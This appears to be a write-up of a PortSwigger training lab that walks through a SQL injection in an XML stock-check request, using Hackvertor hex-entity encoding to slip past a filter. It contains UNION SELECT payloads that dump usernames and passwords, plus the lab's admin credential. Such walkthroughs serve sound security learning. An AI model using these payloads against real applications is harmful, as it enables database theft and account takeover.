







# SQL injection with filter bypass via XML encoding

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

___
#xml

step 1

open lab go to any product 
click on check stock and intercept request through burpsuite
and send to repeater



step 2

send request you will get total units



step 3

add 1+1 in store section then send request
you will see changes in units

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1+1
	</storeId>
</stockCheck>
```



step 4

add `1 UNION SELECT NULL` in store section then send request
you will see changes in units

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1 UNION SELECT NULL
	</storeId>
</stockCheck>
```




step 5

use  hackvertor extension click on hex_entities
add `1 UNION SELECT NULL` in hex entities section then send request
you will see unit with null

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		<@hex_entities>
		1 UNION SELECT NULL
		<@/hex_entities>
	</storeId>
</stockCheck>
```



step 6

add `1 UNION SELECT username || '~' || password FROM users` in hex entities section then send request
you will see account with password

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		<@hex_entities>
		1 UNION SELECT username || '~' || password FROM users
		<@/hex_entities>
	</storeId>
</stockCheck>
```



step 7

To solve the lab use
`administrator~0swkp8f5wyqrafgemqjz`

